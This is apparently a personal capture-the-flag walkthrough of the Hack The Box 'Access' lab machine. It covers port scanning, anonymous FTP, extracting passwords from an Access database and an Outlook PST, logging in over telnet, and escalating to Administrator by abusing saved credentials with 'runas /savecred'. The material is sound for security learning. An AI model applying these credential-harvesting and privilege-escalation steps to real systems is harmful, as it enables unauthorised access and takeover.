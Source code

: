 ﻿### HTB Access    10.10.10.98

Start off as always with an nmap scan.

```
(kali㉿kali)-$ sudo nmap -T4 -p- -Pn 10.10.10.98 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 17:35 EDT
Nmap scan report for 10.10.10.98
Host is up (0.044s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 93.78 seconds
```

Ok, 3 ports to work with.  Let's get to it.  Going to give FTP a try first with anonymous login and see where that gets me.

```
(kali㉿kali)-$ ftp 10.10.10.98                 
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

Well that was quick and easy.  After some poking around in there, I have access to two files from two seperate folders.  Lets go ahead and grab both of those, yea?

First thing, in ftp, switching to binary mode can assist with transfers.  First time I tried it the transfer didn't go so hot so redid it and the transfer worked fine.

Without Binary on...

```
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
 21% |*****************                                                                   |  1162 KiB    1.13 MiB/s    00:03 ETAftp: Reading from network: Interrupted system call
  0% |                                                                                    |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
WARNING! 588 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
```

With Binary on...

```
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |************************************************************************************|  5520 KiB    1.27 MiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:04 (1.27 MiB/s)
```

So, working in ftp, start that off by running the `binary` command.

Now that we have those files, what's next?

![files](/Images/HTB5Access/pic1.png)

Try to extract the zip and it requires a password.  Don't have that.  So how about the .mdb file?  In order to open that, we need a program called 'mdb files' `mdb-sql`.  I had to do some looking but ended up finding `mdbtools` and it worked a treat.

After some looking at the tools readme on github, I was able to use the following commands.

`mdb-tables backup.mdb`

![mdb-tables](/Images/HTB5Access/pic2.png)

Looking through the tables I see the table `auth_user` and I wonder what's in there.  I can go through any tables that I want using the following command, but I'll show you the table we have here.

`mdb-export backup.mdb auth_user`

![auth_user](/Images/HTB5Access/pic3.png)

So a couple passwords here.  Give those a try on the zip file we tried earlier.  One doesn't work....but one does!  And we have a pst file.

![pst file](/Images/HTB5Access/pic4.png)

Now, what to do with a pst file.  I know it's an outlook file.  Try to install `readpst` and it tells me to get `pst-utils` instead.  Do that and then run the following command.

```
(kali㉿kali)-$ readpst Access\ Control.pst
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

And now a new file has shown up in the folder.

![New File](/Images/HTB5Access/pic5.png)

Double click on the mbox file to see what it does and it opens a text like document with email info in it.  But what's this.  Looks like a nice little password for us, yea?

![Email Contents](/Images/HTB5Access/pic6.png)

So, now we have a new password and a new username to try.

Tried it first on the ftp, didn't work.  But we had another port, telnet was open.  Let's give that a try.

```
(kali㉿kali)-$ telnet -l security 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

Ok, got my in and low level user.  Quick checks and grab that user flag.

![User Flag](/Images/HTB5Access/pic7.png)

And then we move on to the elevation part.

```
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Ok, so looks like we have the Administrator account creds stored on this device.  So lets utilize the `runas.exe` command to run things as admin since they were so nice as to leave the creds right there for us.

`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`

![File copied](/Images/HTB5Access/pic8.png)

![Root Flag](/Images/HTB5Access/pic9.png)

And that's that.  This was just a simple example of what you can use `runas` for.  At this point we could run pretty much whatever we wanted as Administartor using this vulnerability.  We can do more enumeration at this point with other tools like Mimikatz or the like.  Just substitute the command and path to what you want to execute.

Another fun one in the books.  It's always so interesting to learn these different techniques.  Till next time :)